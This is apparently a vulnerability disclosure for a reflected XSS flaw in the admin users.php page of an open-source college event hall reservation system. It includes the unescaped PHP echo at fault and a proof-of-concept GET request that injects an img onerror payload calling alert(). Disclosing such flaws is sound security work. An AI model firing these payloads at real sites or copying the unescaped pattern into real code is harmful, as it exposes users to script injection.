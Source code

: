# MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS users.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/users.php

## Code
```php
<form action="users.php?id=<?php echo $id;?>" method="POST">
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/update-users.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")> HTTP/1.1
Host: [REDACTED]
```

## Screenshot


